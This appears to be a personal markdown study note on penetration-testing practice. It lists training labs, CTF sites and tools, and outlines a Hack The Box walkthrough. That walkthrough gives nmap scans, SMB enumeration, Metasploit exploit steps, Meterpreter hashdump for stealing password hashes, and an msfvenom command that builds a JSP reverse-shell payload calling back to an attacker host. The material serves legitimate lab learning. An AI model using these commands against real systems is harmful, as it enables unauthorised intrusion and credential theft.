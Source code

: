 # training labs
- https://Hackthis.co.uk
- https://www.hackthebox.eu/
- https://Vulnhub.com
- https://www.hackerone.com/start-hacking
- https://www.virtualhackinglabs.com/labs/penetration-testing-lab/
- https://www.hackthissite.org/
- https://cryptopals.com/
- http://opensecuritytraining.info/HTID.html
- http://www.dvwa.co.uk/
- https://information.rapid7.com/download-metasploitable-2017.html
  
# games
- https://ctftime.org/

# Phases
1. Recon
2. Scanning 
3. Gaining access
4. Maintaining access
5. Clearing tracks

# hack the box
- https://www.hackthebox.eu/home/rules
- https://www.hackthebox.eu/home/htb/access

# top tools
- Metasploit
- the Nessus Vulnerability Scanner
- Nmap
- Burp Suite    # web
- OWASP ZAP     # web
- SQLmap
- Kali Linux
- Jawfish

## Hack examples
- https://www.youtube.com/watch?v=JZN3JhoAdWo
1. `Recon`
   1. get $IP of target from hackthebox.eu
2. `Scanning` 
   1. nmap $ip
      1. 8080/tcp                # browse via web
   2. nmap -A -T4 -p- $ip         # ALL scan, OS/ver/script/traceroute detection.
      1.  5min to an hour
   3. nmap -sU -T4 -p1-1000 $ip   # 1000 UDP ports
   4. $info = **smb weakness**    # 139/tcp ntbios-ssnn
      1. google search $info exploit 
         1. exploit-db.com
         2. rapid7.com
3. `Gaining access`
   1. smbclient -L \\\\$ip\\      # found smb service
      1. try to crawl folders
   2. msfconsole                  # Rapid7 Metasploit
      1. search $smb_version      # $keyword
      2. search $exploit-keyword-or-id
      3. use $exploit/aux
      4. options
      5. show
      6. set $var $value
      7. exploit or run
   3. nessus??
4. `Maintaining access`
   1. meterpreter               # reverse shell
      1. getuid #windows command
      2. sysinfo
      3. help
      4. hashdump # get the SAM, pass the hash around
      5. find user.txt, or root.txt and submit to hackthebox.eu
   2. msfvenom -p java/jsp_shell_reverse_tcp LHOST=$myip LPORT=$myport -f war > rat.war
      1. msfconsole
         1. use exploit/multi/handler
5. `Clearing tracks`
6. Capture the flag (CTF)
   1. tag web with contents of user.txt
